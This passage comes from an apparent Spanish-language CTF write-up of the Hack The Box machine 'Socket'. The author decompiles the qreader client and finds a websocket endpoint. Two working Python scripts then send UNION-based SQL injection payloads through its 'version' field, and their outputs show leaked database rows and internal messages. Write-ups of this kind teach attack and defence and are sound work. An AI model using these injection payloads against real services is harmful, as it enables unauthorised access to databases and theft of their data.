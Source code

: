 Una vez tengamos el archivo, se descomprime todo en una carpeta, ahi encontramos *qreader.pyc* que para poder examinarlo
tendremos que pasarlo a *archivo .py* para ello encontre ***pydumpck*** [https://pypi.org/project/pydumpck/](https://pypi.org/project/pydumpck/)

Ya, una vez completado el proceso crea otro direcorio, donde se encuentra el archivo que podemos examinar en formato *.py*

***(parte del Script)***
![script]({{'/assets/img/Socket/script.png' | relative_url}})

Aqui podemos encontrar algo interesante, podriamos intentar validar y enviar una ijeccion *SQL* a traves de **websocket**

Procedo a escribir un pequeño script en python para entablar una conexion websocket y mandar la injeccion.

```python
#!/usr/bin/python3
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT "test","2","3","4" FROM answers;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```
```bash
❯ python3 username.py
{"message": {"id": "test", "version": "2", "released_date": "3", "downloads": "4"}}
```
Como se puede ver en el resultado, logramos ijentar lo comando *SQL*, habra que segir investigando.

```python
#!/usr/bin/python3
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT group_concat(answer),"2","3","4" FROM answers;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```
```bash
❯ python3 username.py
{"message": {"id": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller,Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "version": "2", "released_date": "3", "downloads": "4"}}
```
Y puuedo encontar un menseje con posibles nombres de usuasios.

